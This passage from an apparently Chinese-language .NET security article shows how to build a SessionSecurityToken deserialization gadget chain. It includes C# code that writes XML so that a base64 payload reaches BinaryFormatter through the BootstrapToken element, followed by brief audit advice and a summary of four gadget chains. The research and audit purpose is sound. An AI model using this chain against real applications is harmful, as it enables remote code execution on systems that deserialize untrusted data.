

关键点在于BootStrapToken，在SessionSecurityToken类中搜索关键字找到ReadIdentity方法。



该方法中将BootstrapToken标签中的内容base64解码通过binaryformatter反序列化。查看ReadIdentity这个方法被使用在哪些地方：



发现在该类反序列化构造函数中可以多次调用抵达ReadIdentity()。查看该类方法定义，发现多个read对应多个write



那么ReadIdentity对应的就是WriteIdentity，ReadIdentities对应WriteIdentities，ReadPrincipal对应WritePrincipal。而反序列化构造函数对应的就是GetObjectData()。那么针对GetObjectData的序列化过程就可以写出payload。

第一步反序列化构造函数中要绕过一个异常



在序列化的时候有一种最简单的方式绕过异常



所以构造代码`xmlDictionaryWriter.WriteStartElement("SecurityContextToken", "")`继续根据序列化的代码写payload

```csharp
// Serialization Format Version
// <Version>1</Version>
dicWriter.WriteStartElement(dictionary.Version, dictionary.EmptyString);
dicWriter.WriteValue(SupportedVersion);
dicWriter.WriteEndElement();

//
// SecureConversation Version
//
dicWriter.WriteElementString(dictionary.SecureConversationVersion, dictionary.EmptyString, this.SecureConversationVersion.AbsoluteUri);

//
// ID and ContextId
//
dicWriter.WriteElementString(dictionary.Id, dictionary.EmptyString, this.Id);
XmlUtil.WriteElementStringAsUniqueId(dicWriter, dictionary.ContextId, dictionary.EmptyString, this.ContextId.ToString());

//
// Key material
//
byte[] key = ((SymmetricSecurityKey)this.SecurityKeys[0]).GetSymmetricKey();

dicWriter.WriteStartElement(dictionary.Key, dictionary.EmptyString);
dicWriter.WriteBase64(key, 0, key.Length);
dicWriter.WriteEndElement();

//
// Key Generation
//
if (this.KeyGeneration != null)
{
XmlUtil.WriteElementStringAsUniqueId(dicWriter, dictionary.KeyGeneration, dictionary.EmptyString, this.KeyGeneration.ToString());
}

//
// Effective and Expiry dates
//
XmlUtil.WriteElementContentAsInt64(dicWriter, dictionary.EffectiveTime, dictionary.EmptyString, this.ValidFrom.ToUniversalTime().Ticks);
XmlUtil.WriteElementContentAsInt64(dicWriter, dictionary.ExpiryTime, dictionary.EmptyString, this.ValidTo.ToUniversalTime().Ticks);
XmlUtil.WriteElementContentAsInt64(dicWriter, dictionary.KeyEffectiveTime, dictionary.EmptyString, this.KeyEffectiveTime.ToUniversalTime().Ticks);
XmlUtil.WriteElementContentAsInt64(dicWriter, dictionary.KeyExpiryTime, dictionary.EmptyString, this.KeyExpirationTime.ToUniversalTime().Ticks);

//
// Claims Principal
//
WritePrincipal(dicWriter, dictionary, this.ClaimsPrincipal);
```

对应的就是

```csharp
xmlDictionaryWriter.WriteStartElement("Version", "");
xmlDictionaryWriter.WriteValue("1");
xmlDictionaryWriter.WriteEndElement();

xmlDictionaryWriter.WriteElementString("SecureConversationVersion", "", (new Uri("http://schemas.xmlsoap.org/ws/2005/02/sc")).AbsoluteUri);

xmlDictionaryWriter.WriteElementString("Id", "", "1");

WriteElementStringAsUniqueId(xmlDictionaryWriter, "ContextId", "", "1");

xmlDictionaryWriter.WriteStartElement("Key", "");
xmlDictionaryWriter.WriteBase64(new byte[] { 0x01 }, 0, 1);
xmlDictionaryWriter.WriteEndElement();

WriteElementContentAsInt64(xmlDictionaryWriter, "EffectiveTime", "", 1);
WriteElementContentAsInt64(xmlDictionaryWriter, "ExpiryTime", "", 1);
WriteElementContentAsInt64(xmlDictionaryWriter, "KeyEffectiveTime", "", 1);
WriteElementContentAsInt64(xmlDictionaryWriter, "KeyExpiryTime", "", 1);
```

接着就是ReadPrincipal的构造https://github.com/microsoft/referencesource/blob/5697c29004a34d80acdaf5742d7e699022c64ecd/System.IdentityModel/System/IdentityModel/Tokens/SessionSecurityToken.cs#L489



写一个ClaimsPrincipal标签进去



然后在写Identities标签和Identity标签，最后在https://github.com/microsoft/referencesource/blob/5697c29004a34d80acdaf5742d7e699022c64ecd/System.IdentityModel/System/IdentityModel/Tokens/SessionSecurityToken.cs#L972 这个地方需要写一个base64之后的payload，填充为BootstrapToken就行了。



代码如下：

```csharp
xmlDictionaryWriter.WriteStartElement("ClaimsPrincipal", "");
xmlDictionaryWriter.WriteStartElement("Identities", "");
xmlDictionaryWriter.WriteStartElement("Identity", "");
xmlDictionaryWriter.WriteStartElement("BootStrapToken", "");
xmlDictionaryWriter.WriteValue(B64Payload); // This is where the payload is
xmlDictionaryWriter.WriteEndElement();
xmlDictionaryWriter.WriteEndElement();
xmlDictionaryWriter.WriteEndElement();
xmlDictionaryWriter.WriteEndElement();
```

至此就结束了。

# 审计

除了关注反序列化方法传入的参数值，还需要注意使用LosFormatter和ObjectStatesFormatter可能会造成二次反序列化，要关注object类型的字段。

# 后文

本文讲解了LosFormatter序列化及反序列化，并分析了ClaimsIdentity、WindowsIdentity、WindowsClaimsIdentity、SessionSecurityToken四条利用链。